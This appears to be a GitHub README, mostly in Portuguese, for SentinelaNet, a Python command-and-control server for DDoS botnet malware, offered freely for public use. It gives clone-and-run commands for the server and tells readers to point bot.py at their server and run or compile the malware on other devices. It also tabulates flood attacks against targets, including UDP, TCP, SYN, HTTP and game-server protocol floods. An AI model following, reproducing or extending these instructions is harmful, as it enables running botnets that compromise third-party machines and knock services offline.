<div align="center">
    <h1>SentinelaNet</h1>
    <h3>SentinelaNet é uma CNC (Comando e Controle) em Python, projetada para gerenciar um malware que realiza ataques de disparos em massa (DDoS).</h3>

  <p align="center">
      <img src="https://github.com/user-attachments/assets/c7b54c33-26da-43b2-b12e-67a266719f0a">
  </p>
  <p>Esta CNC é para ser uma versão aprimorada do KryptonC2 e será disponibilizada publicamente e de forma gratuita. Vou hospedá-la e permitir que os usuários a utilizem sem a necessidade de compra.</p>
</div>

<br>

## **Instalação** 📁
```shell script
git clone https://github.com/CirqueiraDev/SentinelaNet
```
```shell script
cd SentinelaNet
```
```shell script
pip install colorama
```
```shell script
python3 cnc.py <port>
```
**Os logins são salvos em logins.txt no formato "username:password"**

<br>

## Configure o malware 💣
```
Mude o IP e a porta do bot.py com o IP (Publico se não for um teste local) e a porta do seu servidor CNC depois salve o arquivo.
```
```
Depois execute o malware em outro dispositivo que suporte python (caso o alvo não tenha o python você pode compilar o malware)
```

<br>

<div align="center">
  
  ## CNC Commands
  Command | Description
  --------|------------
  help, ? | Shows list of commands
  botnet | Shows list of botnet attack methods
  bots | Shows all conected bots
  clear, cls | Clears the console window screen
  exit, logout | Disconnects from the C&C server

  ### Attack Commands
  Command  | Usage | Description
  ---------|-------|-------------
  .UDP     | \<taregt> \<port> \<time> | Starts UDP Flood
  .TCP     | \<taregt> \<port> \<time> | Starts TCP Flood
  .SYN     | \<taregt> \<port> \<time> | Starts TCP SYN Flood
  .VSE     | \<taregt> \<port> \<time> | Send Valve Source Engine Protocol
  .MCPE    | \<taregt> \<port> \<time> | Minecraft PE Status Ping Protocol
  .FIVEM   |\<taregt> \<port> \<time> | Send FiveM Status Ping Protocol
  .ROBLOX  | \<taregt> \<port> \<time> | Starts ROBLOX UDP Flood
  .HTTPGET |\<taregt> \<port> \<time> | Starts HTTP/1.1 GET Flood
  .HTTPPOST|\<taregt> \<port> \<time> | Starts HTTP/1.1 POST Flood
  .BROWSER |\<taregt> \<port> \<time> | Starts HTTP/1.1 BROWSER Simulator Flood
</div>

---

### Owner
- **Discord: Cirqueira**
    - [YouTube](https://www.youtube.com/@cirqueiradev)
    - [Telegram](https://t.me/CirqueiraDev)
